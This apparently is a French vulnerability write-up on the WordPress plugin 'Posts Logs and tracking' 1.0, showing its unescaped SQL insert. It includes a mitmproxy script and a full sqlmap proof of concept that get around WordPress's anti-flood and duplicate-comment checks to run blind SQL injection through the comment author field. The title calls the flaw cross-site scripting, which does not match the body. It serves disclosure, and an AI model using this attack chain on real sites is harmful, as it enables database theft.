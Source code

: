 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Posts Logs and tracking"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Posts Logs and tracking](https://wordpress.org/plugins/posts-logs-and-tracking/) se présente de cette façon :

> The tracking plugin Logs every new post with posted time , Log every new comments and reply posted time

La version testée est la 1.0 qui date d'il y a 9 ans au moment de ces lignes.

## La vulnérabilité

Dans le script `WPtracking.php` on trouve une classe dont le constructeur enregistre plusieurs hooks :

```php
class WPTracking{                                                                                                      
    static $instance;

    function __construct()
    {
        self::$instance = $this;
        add_action('init', array($this, 'init'));
    }
    //add hooks on app init
    function init()
    {
        add_action('transition_post_status',  array($this, 'log_post'), 10, 3 );
        add_action('wp_set_comment_status ', array($this, 'log_comment'));
        add_action('wp_insert_comment', array($this, 'log_comment'), 99, 2);
    }
    --- snip ---
```

On remarque notamment l'appel à la fonction `log_comment` que voici :

```php
public function log_comment($comment_id, $comment_object) {
   if ($comment_object->comment_parent > 0) { // Reply
       $this->wplog('R', $comment_object);
   } else {                                   // new comment
       $this->wplog('C', $comment_object);
   }
}
```

On va se pencher en particulier sur le cas d'un nouveau commentaire avec le type `C`.

Les données soumises sont passées dans `$data` à la fonction `wplog` :

```php
public function wplog($type, $data)
{
    global $wpdb;
    // Save log by data
    if ($type == 'P')
    {
        --- snip ---                                                                                                     
    }
    if ($type == 'C')
    {
        if (get_option('wp_tracking_comment') == 1)
        {
            $author = $data->comment_author;
            $comment = $data->comment_content;
            $com_id = $data->comment_ID;
            $insert = "INSERT INTO `".$wpdb->prefix."tracking`( `track_type`, `comment_id`, `content`, `author`) VALUES
                ('C', '$com_id', '$comment','$author')";
            $wpdb->query($insert);
        }
    }
    if ($type == 'R')
```

Le problème de ces hooks c'est qu'ils laissent supposer que les données sont déjà échappées en vue de l'insertion en base ou l'affichage dans le navigateur alors que ce n'est pas le cas.

Ici, on peut par exemple exploiter une faille d'injection SQL via le champ `author` lorsque l'on poste un commentaire. 

Il y a toutefois deux mécanismes qui bloquent l'automatisation de la vulnérabilité (par exemple avec `sqlmap`) :

- l'anti-flood de Wordpress vous oblige à attendre 15 secondes avant de pouvoir reposter un commentaire (sinon il répond avec un code HTTP 429)
- le mécanisme anti-doublon refusera votre commentaire si vous avez déjà soumis un texte identique

`sqlmap` dispose d'une option `--randomize` qui permet de spécifier dans quel(s) paramètre(s) injecter des données aléatoires.

Si on a peur de retomber sur la même valeur aléatoire pendant l'attaque alors, on peut avoir recours à un script [mitmproxy](https://mitmproxy.org/) qui réécrira le paramètre avec une donnée qui s'incrémente :

```python
from random import choices
from string import ascii_letters, digits

from mitmproxy import http

COUNT = 0

def get_random_name():
    return "".join(choices(ascii_letters + digits, k=16))

COMMENT = get_random_name()

def request(flow: http.HTTPFlow) -> None:
    global COUNT
    global AUTHOR
    if flow.request.urlencoded_form:
        if "comment" in flow.request.urlencoded_form:
            flow.request.urlencoded_form["comment"] = f"{COMMENT}{COUNT}"
            COUNT += 1
```

On lancera `mitmproxy` avec `-s` pour spécifier le chemin du script et on donnera l'adresse du proxy à `sqlmap`.

Il faut aussi donner l'option `--delay 16` à `sqlmap` pour bypasser l'anti-flood.

Autre problématique : par défaut le commentaire peut aller dans la zone de modération.

Wordpress dispose d'un paramètre qui place par défaut le premier commentaire d'un utilisateur en attente. Une fois validé l'utilisateur pourra poster d'autres commentaires sans attendre la modération.

Pour terminer le hook est exécuté [après l'insertion du commentaire](https://developer.wordpress.org/reference/hooks/wp_insert_comment/) :

> Fires immediately after a comment is inserted into the database.

Par conséquence les injections SQL seront visibles dans les commentaires par l'administrateur et potentiellement par les visiteurs.

Comme le hook stocke les commentaires dans une table différente (`wp_tracking`) on ne peut pas obtenir le résultat de l'injection dans les commentaires affichés.

L'injection se fera par conséquent en aveugle.

`sqlmap` indique aussi un problème avec le caractère `>` qui nous oblige à utiliser un script tamper.

Avec tous ces paramètres, on obtient un PoC `sqlmap` de 3 kilomètres, mais ça fait l'affaire :

PoC :

```bash
python3 sqlmap.py  -u http://localhost:8000/wp-comments-post.php \
  --data "author=yolo&email=none%40whatever.com&url=https%3A%2F%2Fperdu.com%2F&wp-comment-cookies-consent=yes&submit=Post%20Comment&comment_post_ID=1&comment_parent=0&comment=Hello%20there%21" \
  --technique TU \
  --risk 3 --level 5 \
  -p author \
  --union-cols 4 \
  --delay 16 \
  --proxy http://127.0.0.1:8080/ \
  --tamper=between \
  --current-db 
```
